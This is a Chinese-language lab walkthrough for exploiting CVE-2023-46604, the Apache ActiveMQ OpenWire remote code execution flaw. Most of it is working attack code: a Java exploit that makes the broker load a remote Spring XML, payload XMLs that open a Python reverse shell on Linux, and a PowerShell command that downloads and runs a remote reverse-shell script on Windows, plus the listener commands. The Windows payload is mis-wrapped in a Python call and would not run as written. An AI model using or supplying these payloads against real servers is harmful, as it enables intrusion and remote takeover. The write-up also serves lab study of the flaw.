




# CVE-2023-46604：Apache ActiveMQ远程代码执行漏洞
## 影响版本
Apache ActiveMQ < 5.18.3
Apache ActiveMQ < 5.17.6
Apache ActiveMQ < 5.16.7
Apache ActiveMQ < 5.15.16
## 搭建环境
kali：192.168.28.132(http服务、反弹shell接收)
centOS(Active MQ)：192.168.28.130
### 设置外网访问
~/conf/jetty.xml
```bash
<bean id="jettyPort" class="org.apache.activemq.web.WebConsolePort" init-method="start">
    <!-- the default port number for the web console -->
    <property name="host" value="192.168.28.130"/>
    <property name="port" value="8161"/>
</bean>

```

默认账号密码：admin/admin
## 配置修改
~/exp/ActiveMQ.java
```bash
import java.io.*;
import java.net.Socket;

public class ActiveMQ {
    public static void main(final String[] args) throws Exception {
        System.out.println("[*] Poc for ActiveMQ openwire protocol rce");
        String ip = "192.168.28.130";  # ActiveMQ服务IP
        int port = 61616;
        String pocxml= "http://10.100.54.33:8000/poc.xml";  # http服务IP:port
        Socket sck = new Socket(ip, port);
        OutputStream os = sck.getOutputStream();
        DataOutputStream out = new DataOutputStream(os);
        out.writeInt(0); //无所谓
        out.writeByte(31); //dataType ExceptionResponseMarshaller
        out.writeInt(1); //CommandId
        out.writeBoolean(true); //ResponseRequired
        out.writeInt(1); //CorrelationId
        out.writeBoolean(true);
        //use true -> red utf-8 string
        out.writeBoolean(true);
        out.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
        //use true -> red utf-8 string
        out.writeBoolean(true);
        out.writeUTF(pocxml);
        //call org.apache.activemq.openwire.v1.BaseDataStreamMarshaller#createThrowable cause rce
        out.close();
        os.close();
        sck.close();
        System.out.println("[*] Target\t" + ip + ":" + port);
        System.out.println("[*] XML address\t" + pocxml);
        System.out.println("[*] Payload send success.");
    }
}
```
~/exp/poc.xml
此文件要放在http服务目录下，一般为运行开启http服务的当前目录下
linux_poc.xml
```bash
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
 <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>python</value>
        <value>-c</value>
        <!--linux反弹shell -->
        <value><![CDATA[import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{nc反弹接收shell的IP}",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```
win_poc.xml
```bash
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
 <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>python</value>
        <value>-c</value>
        <!--windows反弹shell -->
        <value><![CDATA[IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAdress {{反弹shell的地址}} -Port 9999]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```
## 漏洞利用




启动http服务
`python3 -m http.server`

启动监听端口
`nc -lvvp 9999`

成功接收到反弹shell

## 修复建议
升级到已修复版本
## 参考链接
搭建java环境：https://www.cnblogs.com/stulzq/p/9286878.html
POC：https://github.com/sincere9/Apache-ActiveMQ-RCE/
步骤：https://blog.csdn.net/huangyongkang666/article/details/134138471


ve 10
ac 9
se 10